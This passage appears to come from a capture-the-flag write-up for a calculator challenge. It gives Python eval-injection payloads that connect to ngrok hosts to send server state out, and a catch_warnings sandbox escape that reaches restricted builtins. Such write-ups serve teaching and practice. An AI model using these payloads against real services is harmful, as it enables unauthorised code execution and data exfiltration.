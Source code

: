 In the eval payload, we have to also process the response from the random, to make it an int:

```python
int([[x.connect(('8.tcp.ngrok.io', 15754)), x.send(bytes(str(__import__('random').getstate()), 'UTF-8')), x.recv(20), x.close()] for x in [__import__('socket').socket()]][0][2])
```

And, let's run our [Exploit](https://github.com/Neptunians/utcft-2023-writeup-calculator/blob/main/exploit.py) to make the attack easier.

And we finally receive the prize:
`1364310140, correct!  The password is &#x27;E46Dnqb5enAMgGArbruu&#x27;`

Password: `E46Dnqb5enAMgGArbruu`

### Level 3

Let's just try the same payload, off-course.

![](https://i.imgur.com/dOptwVG.png)

Now it also blocks our built-in functions, like `int` and `__import__`.
It is now like a standard SSTI challenge. We can get the classes and builtins we need from the primitive types, like `tuple` and `str`.

Let's check our available classes on the server:

```python
().__class__.__base__.__subclasses__()
```

![](https://i.imgur.com/GgmDtVi.png)

A lot of stuff. The interesting class here is the `warnings.catch_warnings`. It allows us to get to the builtins.

Let's try a simple RCE.

```python
{x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['int']("12")
```

And...

`Result: 12.  The correct answer was 2743938107.`

OK, we're in again.

Let's adapt our payload from level 2 to the new world order.

```python
{x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['int']([[x.connect(('2.tcp.ngrok.io', 10157)), x.send({x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['bytes']({x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['str']({x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['__import__']('random').getstate()), 'UTF-8')), x.recv(20)] for x in [{x.__name__: x for x in ().__class__.__base__.__subclasses__()}['catch_warnings']()._module.__builtins__['__import__']('socket').socket()]][0][2])
```
